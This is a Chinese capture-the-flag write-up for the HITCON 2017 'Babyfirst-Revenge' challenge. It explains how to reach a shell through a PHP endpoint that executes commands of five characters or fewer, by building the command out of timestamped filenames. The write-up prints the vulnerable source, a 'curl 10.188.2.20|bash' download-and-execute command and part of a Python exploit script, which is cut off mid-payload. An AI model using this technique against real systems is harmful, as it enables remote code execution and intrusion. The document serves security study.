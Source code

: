 

<h2>[HITCON 2017]Babyfirst-Revenge</h2>


翻buuoj的时候看到了这道题，分值高达92分，只有32个师傅解出来了这道题，简单看了下其他师傅的wp，这道题似乎与Linux命令有关，很有意思，于是参考其他师傅的wp我准备挑战下这道题。

进入题目环境页面上直接出现了源码：

```
<?php
    echo $_SERVER['REMOTE_ADDR']."\n";
    $sandbox = '/var/www/html/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
```

简单分析下，题目会自动创建一个/var/www/html/sandbox/文件夹，然后切换目录至改位置，接着满足条件的情况下我们可以执行命令，不过这里有个很明显的难点，就是限制cmd参数的长度必须小于等于五，否则直接给你rm -rf了，所以现在的难点就在于怎么在命令长度受限的情况下实现get shell。

翻了翻<a href="https://www.leavesongs.com/SHARE/some-tricks-from-my-secret-group.html">P牛的博客</a>，发现他早就提过这个小tips了，参考其他师傅的<a href="https://blog.csdn.net/u011377996/article/details/82464383">wp</a>，下面我们来简单分析下：

首先，linux中可以用\拼凑命令，比如<code>l\ s</code>，这样等效于ls：

<figure class="wp-block-image size-full"><img src="https://fushuling.com/wp-content/uploads/2022/11/1-2.png" alt="" class="wp-image-372"/></figure>


其次我们可以用<code>sh filename</code>执行文件里的有效文件命令，即使其中有非命令字符串也只会报错，还是会继续执行有效的文件命令：

<figure class="wp-block-image size-full"><img src="https://fushuling.com/wp-content/uploads/2022/11/2-2.png" alt="" class="wp-image-373"/></figure>


还有一个很经典的linux知识点，我们可以通过&gt;+fileanme来实现新建一个文件(&gt;是覆盖，&gt;&gt;是追加)，这个tips挺好用的，比如某个你在某个网站发现一个无回显的命令注入点，你可以用cat *&gt;1.txt，将内容全部写进1.txt里，然后通过访问1.txt来看到命令的执行结果。

现在我们已经学会了基础知识点，想必解决这道题一定是手到擒来((‾◡◝))

<figure class="wp-block-image size-full"><img src="https://fushuling.com/wp-content/uploads/2022/11/1-2.jpg" alt="" class="wp-image-374"/></figure>


简单思考下，怎么通过上面的三个知识点get shell呢，其实很简单。我们知道linux用ls -t可以按时间顺序罗列出各大文件，我们可以把我们的恶意代码比如

```
curl 10.188.2.20|bash
```


按时间顺序拆解成不同的文件，如cu/ rl/等等等，然后用同样的方法执行ls -t&gt;g，按时间顺序拼凑出你想要的命令，可能说起来有点复杂，看我(抄)的脚本就知道了：

```
import requests
from time import sleep
from urllib.parse import quote
 
 
payload = [
    # generate `ls -t>g` file
    '>ls\\', 
    'ls>_', 
    '>\ \\', 
    '>-t\\', 
    '>\>g', 
    'ls>>_', 
 
    # generate `curl 82.157.233.xxx|bash` 这个ip也就是我的wps
```